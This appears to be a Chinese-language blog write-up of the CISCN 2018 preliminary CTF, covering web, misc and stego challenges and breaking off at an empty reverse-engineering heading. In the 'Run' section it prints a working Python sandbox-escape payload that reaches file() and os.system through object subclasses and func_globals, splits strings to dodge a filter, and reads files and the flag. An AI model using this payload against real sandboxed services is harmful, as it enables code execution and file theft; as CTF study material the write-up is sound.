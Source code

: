```yaml
---
layout: post
title: CISCN 2018 初赛 Write-up
date: 2018-05-28 15:25:24.000000000 +08:00
categories:
  - writeup
tags: 
  - ciscn
---
```


多年不更新，趁有时间整理一下最近比赛的writeup.

虽然是饱受诟病的国赛和永远做不了的选择题，虽然题目有点乱，但是。。。毕竟是国赛嘛，还是得认真打

[知乎传送门](https://www.zhihu.com/question/275155066)  结合知乎食用 风味更佳

## Web

### Easyweb

。。。找了半天的注入点发现是空密码我会告诉你？

### Picture

下载到的 PNG（实际是 JPG）尾部添加了 zlib 数据。

binwalk –e 提取之，发现是 base64 编码；解码之，获得一个文件头是“4B 50”的文件。

修改为“50 4B”，发现是压缩包，提示密码是“ZeroDivisionError: …………”
用 python 被零除的默认错误信息实验（integer division or modulo by zero）（感谢某lth大佬提供脑洞），成功解压

解压出的文件是 uuencoded，uudecode 之，获得 flag

### Flag_in_your_head 

Js 实际是 MD5 实现，但 binl 中添加了一个 ck 函数 

```javascript
function ck(s) {
    try {
        ic
    } catch (e) {
        return;
    }
    var a = [118, 104, 102, 120, 117, 108, 119, 124, 48,123,01,121];
    if (s.length == a.length) {
        for (i = 0; i < s.length; i++) {
            if (a[i] - s.charCodeAt(i) != 3)
                return ic = false;
        }
        return ic = true;
    }
    return ic = false;
} 
```

显而易见，将 A 的各元素 ASCII-3，获得 Token：*security-xbv*。传入，获得 flag.

## Misc

### Run

比较典型的 Python 沙盒逃逸。
首先先用 object 基类的__subclasses__子类内的 file 子类，可以构成文件读取：

```python
    [].__class__.__base__.__subclasses__()[40]('/home/ctf/sandbox.py')
```

虽然不能直接 getshell，注意到退出时的错误信息 leak 出文件名，可以读取到源码。

此时的直接想法是利用 warnings.catch_warnings 类 linecache 引入的 os 模块，执行系统命
令；但是 func_globals 被 ls 规则过滤，故使用如下 payload:

```python
    >>> p = ‘func_global’ + ‘s’
    >>> o = [].__class__.__base__.__subclasses__()[59].__init__.__func__.__getattribute__(p)['linecache'].__dict__.values()[12].__dict__.values()[144]
    >>> c = ‘l’ + ‘s /home/ctf/’
    >>> o(c)
    5c72a1d444cf3121a5d25f2db4147ebb
    bin
    cpython.py
    cpython.pyc
    sandbox.py
    >>> c = 'ca' + 't /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'
    >>> o(c)
    ciscn{62a20588ef9766b418537c763366ea0c}
```

## RE
### 